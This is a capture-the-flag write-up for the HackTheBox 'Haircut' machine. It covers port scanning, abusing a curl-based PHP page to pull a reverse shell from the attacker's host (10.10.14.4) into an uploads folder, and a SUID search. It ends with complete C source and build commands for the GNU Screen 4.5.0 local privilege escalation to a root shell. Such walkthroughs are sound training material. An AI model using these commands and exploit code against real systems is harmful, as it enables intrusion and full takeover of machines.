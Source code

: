 # Recon

As usual we start with a port scan against the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.24 -T5
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Haircut/assets/1.png">

The scan results only show two open ports. We'll start with the webserver on port 80.

# Enumeration
As the website itself doesn't reveal anything we'll run gobuster on the target. We will also look for files using the ```-x php,hmtml``` argument.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Haircut/assets/2.png">

# Initial Foothold
```exposed.php``` looks interesting. It looks like it uses curl to download a given website. We can abuse this by letting it upload a reverse php shell. We download a [reverse php shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) and change the IP and port to our attacking machine which has a listener ready.

We'll upload it to the ```/uploads``` directory found with gobuster. We'll probably have right permission on that folder. ```-o``` will save the file to the location provided.

```http://10.10.14.4:8000/shell.php -o uploads/shell.php```

Browsing to ```http://10.10.14.4:8000/shell.php``` will initiate the reverse shell.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Haircut/assets/3.png">

Like usual we'll upgrade the shell. Python was not installed but running ```which python3``` tells us that python3 is.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

Press ctrl+z key combination 

stty raw -echo; fg
```

# Privilege Escalation
We can search for interesting files with SUID set by running the following command:
```
find / -perm -4000 -exec ls -l {} \; 2>/dev/null 
```
We spot ```/usr/bin/screen-4.5.0``` which has an privilege escalation exploit available. But because we won't have permission to run ```gcc``` on our target we'll first prepare some things locally.

[GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)

Create: libhax.c
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

Create: rootshell.c
```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc -o rootshell rootshell.c 
```
This will return some errors but we can ignore them. The code refers to other locations than our attacking machine but after we transfer them to the host it'll work fine.

Now that we have created the files we download them to our target. We change the references in ```ld.so.preload``` and finally run our rootshell.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Haircut/assets/5.png">



